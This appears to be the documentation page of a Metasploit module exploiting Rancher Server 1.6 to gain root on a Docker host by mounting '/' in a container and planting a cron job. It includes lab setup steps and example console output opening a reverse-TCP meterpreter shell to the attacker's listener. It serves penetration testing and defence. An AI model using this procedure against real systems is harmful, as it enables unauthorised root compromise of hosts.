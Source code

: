 # Vulnerable Application
Utilizing Rancher Server, an attacker can create a docker container
with the '/' path mounted with read/write permissions on the host
server that is running the docker container. As the docker container
executes command as uid 0 it is honored by the host operating system
allowing the attacker to edit/create files owned by root. This exploit
abuses this to creates a cron job in the '/etc/cron.d/' path of the
host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

## Rancher setup
Rancher is deployed as a set of Docker containers. Running Rancher is
as simple as launching two containers. One container as the management
server and another container on a node as an agent.

This module was tested with Debian 9 and CentOS 7 as the host operating
system with Docker 17.06.1-ce and Rancher Server 1.6.2, all with
default installation.

### Install Debian 9
First [install Debian 9][1] with default task selection. This includes
the "*standard system utilities*".

### Install Docker CE
Then install a supported version of [Docker on Debian system][2].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Rancher Server (Management)
I recommend doing a ['Rancher Server - Single Container (NON-HA)'
installation][3].

If Docker is installed, the command to start a single instance of
Rancher is simple.

```bash
# TL;DR
sudo docker run -d --restart=unless-stopped -p 8080:8080 rancher/server
```

If all is passing navigate to `http://[ip]:8080/`. You should see the
Rancher Server UI web application.

### Rancher Host (Agent)

Add a [new host][4] to Rancher Server so that the Docker host can be managed.

**Set Host Registration URL**

The first time that you add a host, you may be required to set up the
Host Registration URL.

* Navigate to Admin / Settings (`http://[ip]:8080/admin/settings`)
* Check if `"http://[ip]:8080/"` is set 
* Click on Save.

**Add new host**

* Navigate to Infrastructure / Hosts (`http://[ip]:8080/env/1a5/infra/hosts`)
* Click on Add Host
* Copy the command from Point 5 (and remove sudo prefix)
  `docker run --rm --privileged -v /var/run/docker.sock:/var/run/docker.sock -v /var/lib/rancher:/var/lib/rancher rancher/agent:v1.2.2 http://[ip]:8080/v1/scripts/XXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXX`
* Paste and run the command on the host

The new host should pop up on the Hosts screen within a minute.

# Exploitation
This module is designed to gain root access on a Rancher Host.

## Options
- CONTAINER_ID if you want to have a human readable name for your container, otherwise it will be randomly generated.
- DOCKERIMAGE is the local image or hub.docker.com available image you want to have Rancher to deploy for this exploit.
- TARGETURI this is the Rancher Server API path. The default environment is `/v1/projects/1a5`.
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.

By default access control is disabled, but if enabled, you need API
Keys with at least "restrictive" permission in the environment.
See Rancher docs for [api-keys][5] and [membership-roles][6].

- HttpUsername is for your Access Key
- HttpPassword is for your Secret Key

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/rancher_server
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs 
- [ ] After a minute a session should be opened from the agent server

## Example Output
```
msf > use exploit/linux/http/rancher_server
msf exploit(rancher_server) > set RHOST 192.168.91.111
RHOST => 192.168.91.111
msf exploit(rancher_server) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(rancher_server) > set LHOST 192.168.91.1
LHOST => 192.168.91.1
msf exploit(rancher_server) > set VERBOSE true
VERBOSE => true
msf exploit(rancher_server) > check
[*] 192.168.91.111:8080 The target appears to be vulnerable.
msf exploit(rancher_server) > exploit

[*] Started reverse TCP handler on 192.168.91.1:4444
[*] Setting container json request variables
[*] Creating the docker container command
[+] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[+] The docker container has stopped, now trying to remove it
[+] The docker container has been removed.
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (40747 bytes) to 192.168.91.111
[*] Meterpreter session 1 opened (192.168.91.1:4444 -> 192.168.91.111:49948) at 2017-07-27 22:18:00 +0200
[+] Deleted /etc/cron.d/wlHVKGMA
[+] Deleted /tmp/jxKUxUyN

meterpreter > sysinfo
Computer     : rancher
OS           : Debian 9.1 (Linux 4.9.0-3-amd64)
Architecture : x64
Meterpreter  : x64/linux
meterpreter >
```

[1]:https://www.debian.org/releases/stretch/amd64/index.html.en
[2]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[3]:http://rancher.com/docs/rancher/v1.6/en/installing-rancher/installing-server/#launching-rancher-server---single-container-non-ha
[4]:http://rancher.com/docs/rancher/v1.6/en/hosts/#adding-a-host
[5]:http://rancher.com/docs/rancher/v1.6/en/api/v2-beta/api-keys/
[6]:http://rancher.com/docs/rancher/v1.6/en/environments/#membership-roles
